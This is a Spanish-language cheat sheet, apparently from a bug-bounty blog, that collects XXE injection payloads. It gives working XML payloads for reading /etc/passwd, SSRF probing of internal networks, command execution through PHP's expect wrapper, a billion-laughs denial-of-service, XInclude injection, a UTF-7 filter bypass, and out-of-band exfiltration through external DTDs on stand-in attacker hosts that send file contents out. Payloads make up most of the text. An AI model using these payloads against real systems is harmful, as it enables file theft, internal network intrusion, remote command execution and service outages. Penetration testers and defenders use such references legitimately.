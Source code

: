 ```yaml
---
layout: post
title:  "XXE Attacks"
author: erik
categories: [ Web ]
image: https://user-images.githubusercontent.com/47476901/158905099-e3bd6d01-a91d-486b-8d64-db4dd55f97cd.png
beforetoc: ""
toc: false
tags: [ Web, Bug Bounty, Payloads ]
---
```

Algo metodos de inyectar una XXE.

# Table of Contents
1. [Peligros en los ataques XXE](#PeligrosXXE)
2. [Payloads](#XXEpayloads)<br>
   2.1. [XXE a LFI](#XXEaLFI)<br>
   2.2. [XXE a SSRF](#XXEaSSRF)<br>
   2.3. [XXE a RCE](#XXEaRCE)<br>
   2.4.  [XXE a DOS](#XXEaDOS)
6. [Blind en peticion](#BlindXXE)
7. [Bypass XXE](#XXEBypass)
8. [Out-Of-Band](#OutOFBand)

---

### 1- Peligros en los ataques XXE <a name="PeligrosXXE"></a>
- **Exfiltrar informacion critica:**<br>
Seria posible obtener archivos internos del servidor incluso en servicios de la red local, lo cual es peligroso.<br>
Ejemplo: 
[XXE a LFI](#XXEaLFI)
- **Enumerar puertos y dominios en direcciones internas a la red:**<br>
A través de las peticiones ir enumerando la red<br>
Ejemplo: 
[XXE a SSRF](#XXEaSSRF)
- **Enumerar puertos abiertos en otras direcciones extrernas**<br>
 Hacer una enumeracion de puertos mediante peticiones.
- **Ejecutar codigo:** <br>
Si el servidor dispone del modulo "expect" de PHP, seria posible ejecutar codigo y poder llegar a poder ejecutar comandos.<br>
Ejemplo: 
[XXE a RCE](#XXEaRCE)
- **Denegacion del servicio**
Causa una denegacion de servicio mediante repetidas llamadas en las funciones entitys<br>
Ejemplo: 
[XXE a DOS](#XXEaDOS)

---

### 2- XXE payloads <a name="XXEpayloads"></a>
**2.1- LFI Test** <a name="XXEaLFI"></a><br>
Ver archivos internos del servidor

```xml
<?xml version="1.0" encoding="UTF-8"?> <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<foo>&xxe;</foo>
```

**2.2- XXE a SSRF** <a name="XXEaSSRF"></a><br>
Enumerar la red local del servidor
```xml
<?xml version="1.0"?>
<!DOCTYPE foo [  
<!ELEMENT foo (#ANY)>
<!ENTITY xxe SYSTEM "https://192.168.0.1">]>
<foo>&xxe;</foo>
```

**2.3- XXE a RCE** <a name="XXEaRCE"></a><br>
Abusando del modulo expect de php para ejecutar comandos
(Se requiere tener este modulo en el servidor)
```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
 <!DOCTYPE foo [ <!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM "expect://id" >]>
    <checkproduct>
       <productId>&xxe;</productId>
       <storeId>2</storeId>
    </checkproduct>
```
**2.4- XXE a DOS** <a name="XXEaDOS"></a><br>
Causa una denegacion de servicio mediante repetidas llamadas en las funciones de las entity's
```xml
<?xml version="1.0"?>
<!DOCTYPE lolz [
<!ENTITY lol "lol">
<!ELEMENT lolz (#PCDATA)>
<!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
<!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
<!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
<!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
<!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
<!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
<!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
<!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
<!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
]>
<lolz>&lol9;</lolz>
```
---

### 3- XXE blind en peticion <a name="BlindXXE"></a>
**3.1- Ver si existe una XXE sin que se vea en la peticion**

Una forma de identificar una XML blind en una petición: Si la aplicación incrusta los datos enviados en un documento XML y luego se analiza el documento como pasa en una solicitud SOAP de backend. Podemos probar a inyectar XInclude que es una parte de la especificación XML que permite crear un documento XML a partir de subdocumentos.<br>
Ejemplo:
```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude"> <xi:include parse="text" href="file:///etc/passwd"/></foo>



    POST /product/stock HTTP/1.1
    Host: dominio.com
    Content-Length: 126
    
    productId=1&storeId=1
    ------------------------------
    POST /product/stock HTTP/1.1
    Host: dominio.com
    Content-Length: 126
    
    productId=<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>&storeId=1
```

 **3.2- Tambien se podria usar esto en caso de que sea blind**
 ```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude"> <xi:include parse="text" href="file:///etc/passwd"/></foo>

    POST /product/stock HTTP/1.1
    Host: dominio.com
    Content-Length: 126
    
    productId=1&storeId=1
    ------------------------------
    POST /product/stock HTTP/1.1
    Host: dominio.com
    Content-Length: 126
    
    productId=<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="http://web-atacante.com"/></foo>&storeId=1
```

**3.3- Blind XXE test (Cuando no devuelve valores)**

```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
<!ELEMENT foo (#ANY)>
<!ENTITY % xxe SYSTEM "file:///etc/passwd">
<!ENTITY blind SYSTEM "https://subdominio.burpcolaborator.net/?%xxe;">]>
<foo>&blind;</foo>
```
---
### 4- XXE bypass <a name="XXEBypass"></a>
**4.1- XXE UTF-7**

```xml
<?xml version="1.0" encoding="UTF-7"?>
+ADwAIQ-DOCTYPE foo+AFs +ADwAIQ-ELEMENT foo ANY +AD4
+ADwAIQ-ENTITY xxe SYSTEM +ACI-http://web-atacante.com+ACI +AD4AXQA+
+ADw-foo+AD4AJg-xxe+ADsAPA-/foo+AD4
```

**4.2- Access Control bypass (cargando datos confidenciales)**

```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
<!ENTITY cargar SYSTEM "php://filter/read=convert.base64-encode/resource=http://web-vulnerable.com/config.php">]>
<foo><result>&cargar;</result></foo>
```

---

### 5- Ataques XXE Out-Of-Band: <a name="OutOFBand"></a>

**5.1- EJEMPLO 1**
- Se inyecta en el valor &xxe; en uno de los valores xml que se envian
```xml
<?xml version="1.0" encoding="UTF-8"?> 
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://web-atacante.com"> ]>
```

**5.2- EJEMPLO 2**
- Payload que incluiremos completo en el valor xml que se envia. Hará una peticion a la web del atacante, asi podremos saber si realmente procesa la informacion que le mandamos.

```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://web-atacante.com"> %xxe; ]>
```

**5.3- EJEMPLO 3**
- Este codigo es de http://web-atacante.com/cositas.dtd
```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://subdominio.burpcollaborator.net/?x=%file;'>">
%eval;
%exfiltrate; 
```

- Inyeccion XML antes de los valores de la pagina, inyectará el codigo de cositas.dtd en la pagina

```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://web-atacante.com/cositas.dtd"> %xxe;]>
```

**5.4- EJEMPLO 4**
- XXE BLIND basado en mensaje de error
- Este codigo es de http://web-atacante.com/cositas.dtd

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///estonoexiste/%file;'>">
%eval;
%error;
```

- Inyeccion XML en la pagina, inyectará el codigo de cositas.dtd 

```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://web-atacante.com/cositas.dtd"> %xxe;]>
```

**5.5- EJEMPLO 5**
- Explotando una XXE abusando de los archivos DTD del sistema, en el archivo llama a ISOamso, usaremos esa variable para explotar la XXE creando un xml personalizado que realice la funcion de llamar al archivo de /etc/passwd que es el objetivo. 

```xml
<!DOCTYPE foo [
<!ENTITY % el_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
<!ENTITY % ISOamso '
  <!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
  <!ENTITY &#x25; variable "
      <!ENTITY &#x26;#x25; errormensaje SYSTEM &#x27;file:///estonoexiste/&#x25;file;&#x27;>
  ">
  &#x25;variable;
  &#x25;errormensaje;
'>%el_dtd;]>
```
